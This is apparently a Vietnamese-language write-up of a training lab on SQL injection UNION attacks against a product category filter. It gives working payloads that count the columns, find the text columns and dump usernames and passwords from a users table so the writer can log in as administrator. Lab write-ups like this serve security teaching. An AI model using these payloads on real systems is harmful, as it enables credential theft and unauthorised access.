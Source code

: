 # Lab: SQL injection UNION attack, retrieving data from other tables

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

# Overview:

Ở lab lần này, ta thực hiện UNION Attack vào lỗ hổng ở filter category để lấy được `username` và `password` 

Form của challenge

![image](https://user-images.githubusercontent.com/115911041/231927391-27f2b311-0b6a-435b-a93d-86775e22985c.png)

# Solution

Bước đầu ta cần xác định số cột ở phần filter category trước

`'+UNION+SELECT+NULL,NULL--`

![image](https://user-images.githubusercontent.com/115911041/231928102-aecd466b-985b-4e75-8030-9d150bd72184.png)

Ta thấy có 2 collums. Tiếp theo đó, ta sử dụng UNION ATTACK với giá trị khác

`'+UNION+SELECT+'a','b'--`

![image](https://user-images.githubusercontent.com/115911041/231928436-3b07347b-262a-4a6f-9af3-0a3396b7c643.png)

Vậy là giờ ta có thể lấy được `username` và `password` rồi

`+UNION+SELECT+username,password+FROM+users--`

![image](https://user-images.githubusercontent.com/115911041/231929111-4e99eb40-0500-474b-9219-e97e765dabaa.png)

Theo đề bài ta cần log in là `administrator`

![image](https://user-images.githubusercontent.com/115911041/231928935-7ca985a8-e810-4de2-b022-068b431e405a.png)
